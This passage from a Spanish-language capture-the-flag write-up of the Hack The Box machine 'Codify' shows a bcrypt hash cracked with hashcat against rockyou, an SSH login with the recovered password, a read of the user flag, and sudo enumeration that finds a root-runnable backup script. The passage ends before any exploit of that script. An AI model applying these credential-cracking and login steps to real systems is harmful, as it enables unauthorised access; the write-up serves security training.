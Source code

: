 Intentaremos crackear el hash obtenido a través de `hashcat`y finalmente logramos obtener las credenciales en texto plano.

```bash
❯ hashcat -a 0 -m 3200 hashes /usr/share/wordlists/rockyou.txt
hashcat (v6.2.6) starting

OpenCL API (OpenCL 3.0 PoCL 6.0+debian  Linux, None+Asserts, RELOC, LLVM 18.1.8, SLEEF, DISTRO, POCL_DEBUG) - Platform #1 [The pocl project]
============================================================================================================================================
* Device #1: cpu-sandybridge-11th Gen Intel(R) Core(TM) i5-1135G7 @ 2.40GHz, 2913/5891 MB (1024 MB allocatable), 8MCU

$2a$12$SOn8Pf6z8fO/nVsNbAAequ/P6vLRJJl7gCUEiYBU2iLHn4G/p/Zw2:spongebob1
```

Dado que el servicio de `SSH` se encuentra expuesto, nos conectaremos directamente al equipo y finalmente logramos visualizar la flag de **user.txt**.

```bash
❯ ssh joshua@codify.htb
joshua@codify.htb's password: 
Welcome to Ubuntu 22.04.3 LTS (GNU/Linux 5.15.0-88-generic x86_64)

Last login: Wed Mar 27 13:01:24 2024 from 10.10.14.23

joshua@codify:~$ cat user.txt 
745818a77e7*********************
```

## Privilege Escalation

### Abusing sudoers privilege

Revisaremos los grupos que forma parte este nuevo usuario que disponemos pero comprobamos que no dispone de ningún grupo interesante.

Al revisar los permisos de `sudoers` nos encontramos que podemos ejecutar como usuario `sudo` el script localizado en `/opt/scripts/mysql-backup.sh`.

```bash
joshua@codify:~$ id
uid=1000(joshua) gid=1000(joshua) groups=1000(joshua)
joshua@codify:~$ sudo -l
[sudo] password for joshua: 
Matching Defaults entries for joshua on codify:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin, use_pty

User joshua may run the following commands on codify:
    (root) /opt/scripts/mysql-backup.sh
```

### mysql-backup.sh Script Vulnerabilities
